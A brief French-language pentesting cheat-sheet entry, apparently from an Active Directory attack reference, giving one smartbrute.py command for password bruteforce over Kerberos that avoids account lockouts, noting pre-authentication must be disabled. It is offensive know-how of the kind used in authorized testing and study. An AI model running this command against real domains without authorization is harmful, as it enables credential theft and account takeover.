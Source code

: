 

> [!Prérequis]
> La pré-authentification doit être désactivée.

### *SMARTBRUTE*

https://github.com/ShutdownRepo/smartbrute

Smart mode (ne verrouille pas les comptes)

```bash
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```


